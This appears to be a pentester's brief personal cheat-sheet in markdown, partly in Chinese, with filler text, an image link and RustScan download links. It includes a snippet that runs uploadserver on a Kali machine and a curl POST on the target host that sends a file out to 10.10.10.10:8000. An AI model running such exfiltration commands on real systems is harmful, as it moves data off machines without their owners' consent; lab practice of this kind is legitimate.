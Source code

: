 asdfasdfas
哈哈<BR>![图片alt](images/ttte.png)

利用 uploadserver 從目標上傳檔案到kali<BR>
```
# kali端:
pip install uploadserver
python3 -m uploadserver

# 目標端:
curl -X POST http://10.10.10.10:8000/upload -F "files=@myfile.zip"
```

[https://github.com/RustScan/RustScan/releases/](https://github.com/RustScan/RustScan/releases/)  
https://github.com/RustScan/RustScan/wiki/Installation-Guide

